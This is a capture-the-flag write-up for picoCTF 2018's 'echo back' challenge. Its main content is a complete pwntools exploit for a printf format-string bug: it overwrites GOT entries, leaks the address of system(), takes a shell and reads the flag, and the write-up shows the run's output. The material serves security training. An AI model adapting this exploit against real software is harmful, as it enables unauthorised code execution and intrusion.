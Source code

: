 # Problem
This [program](https://2018shell1.picoctf.com/static/31a735bf5c057adfacac1cb8920afaee/echoback) we found seems to have a vulnerability. Can you get a shell and retreive the flag? Connect to it with ```nc 2018shell1.picoctf.com 37857```.

## Hints:
hmm, printf seems to be dangerous...

You may need to modify more than one address at once.

Ever heard of the Global Offset Table?

## Solution:

Lets download the files:
```bash
wget https://2018shell1.picoctf.com/static/31a735bf5c057adfacac1cb8920afaee/echoback
chmod +x ./echoback
```

Lets take a look with IDA:

![screenshot 1]('./screenshot-1.png')
![screenshot 2]('./screenshot-2.png')

Strategy:
* Redirect ```puts()``` back to ```vuln()```.
* Leak the address of ```system()```.
* Redirect ```printf()``` to ```system()```.
* Enjoy the shell


Code:
```python
#!/usr/bin/env python

from pwn import *


debug = 0


def write_memory(address, value):
  v1 = (value & 0x0000FFFF) - 8
  v2 = (value >> 16) - (value & 0x0000FFFF)

  if v2 < 0:
    v2 += 0x00010000

  ret = p32(address) + p32(address + 2) + '%{}x'.format(v1) + '%7$hn'

  if v2 != 0:
    ret += '%{}x'.format(v2)

  ret += '%8$hn'

  return ret

if debug:
  p = process('./echoback')
else:
  p = remote('2018shell1.picoctf.com', 37857)

binary = ELF('./echoback')

p.recvuntil('input your message:')

# Override puts@got with vuln
log.info('Overriding puts@got with vuln')
payload = write_memory(binary.symbols['got.puts'], binary.symbols['vuln'])
p.sendline(payload)

p.recvuntil('input your message:')

log.info('Leaking address of system')
p.sendline(p32(binary.symbols['got.system']) + "." + "%7$s" + ".")
leaked_system = p.recvuntil('input your message:')
leaked_system = unpack(leaked_system.split('.')[1][:4], 32, endian='little')
log.info('Leaked system address: {}'.format(hex(leaked_system)))

# Override printf@got with system@got
log.info('Overriding printf@got with system@got')
payload = write_memory(binary.symbols['got.printf'], leaked_system)
p.sendline(payload)

p.recvuntil('input your message:')

p.sendline('cat flag.txt')
print p.recvuntil('}')
p.close()
```

The output:
```bash
[+] Opening connection to 2018shell1.picoctf.com on port 37857: Done
[*] '/home/roee/Dropbox/Hacking/CTF/picoCTF-2018/Binary/12-echo_back-500/echoback'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Overriding puts@got with vuln
[*] Leaking address of system
[*] Leaked system address: 0xf759d940
[*] Overriding printf@got with system@got

picoCTF{foRm4t_stRinGs_aRe_3xtra_DanGer0us_73881db0}
[*] Closed connection to 2018shell1.picoctf.com port 37857
```

Flag: picoCTF{foRm4t_stRinGs_aRe_3xtra_DanGer0us_73881db0}